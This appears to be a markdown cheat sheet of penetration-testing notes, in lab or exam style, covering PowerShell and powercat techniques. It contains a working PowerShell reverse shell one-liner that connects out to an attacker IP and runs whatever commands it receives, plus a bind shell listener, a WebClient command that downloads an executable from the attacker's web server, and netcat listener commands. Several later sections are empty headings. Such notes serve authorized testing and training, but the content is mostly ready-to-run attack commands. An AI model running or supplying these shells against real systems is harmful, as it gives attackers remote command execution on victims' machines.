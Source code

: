 ## Powershell

### Powershell File Transfers
Transfer file from **target** to **Kali** machine: 

1. Setup webserver on Kali machine:
```bash
python3 -m http.server 80
```

2. Grab download from target:
```powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"
```
*NOTE: Change the `http://10.11.0.4/wget.exe` parameter with desired IP address of the **Kali machine** and the destination parameter `C:\Users\offsec\Desktop\wget.exe` with desired destination*


### Powershell Reverse Shells
Reverse Shell from **target** to **Kali** machine:
1. Setup listener on Kali Machine: 
```bash
sudo nc -nvlp $PORT
```

2. Run PowerShell code on target machine:
```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.11.0.4',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
*NOTE: Change the `10.11.0.4` and `443` parameters with desired IP address and port of the **Kali machine** and **listening port***

### PowerShell Bind Shells
1. Setup powershell listener on target on port **443**. Feel free to change port

```powershell
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"
```
2. Connect to target machine from Kali machine:
```bash
nc -nv $TARGET_IP $PORT
```
### Powercat installation
Install `powercat` on Kali machine:
```bash
sudo apt install powercat
```
Powercat is located in `usr/share/windows-resources/powercat`

Transfer `powercat` to target machine using methods found [here]()

## Powercat File Transfers
```bash

```

### Powercat Bind Shells
Import `powercat` in powershell:
```powershell
import-module .\powercat.ps1
```

### Powercat Reverse Shells

### Powercat 
